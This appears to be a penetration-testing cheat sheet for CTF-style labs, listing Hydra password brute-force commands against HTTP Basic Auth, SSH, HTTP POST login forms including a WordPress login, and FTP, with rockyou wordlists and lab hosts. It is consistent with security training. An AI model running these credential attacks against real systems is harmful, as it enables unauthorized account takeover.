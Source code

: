 # Hydra

### HTTP Basic Auth

```bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
# Use -C for user:pass in one file
```

### SSH

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.165.242
```

### POST

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.89.16 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"


hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.11.47 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
{% endcode %}

### FTP

```bash
hydra -l ftpuser -P passwords.txt 10.10.231.155 ftp
```
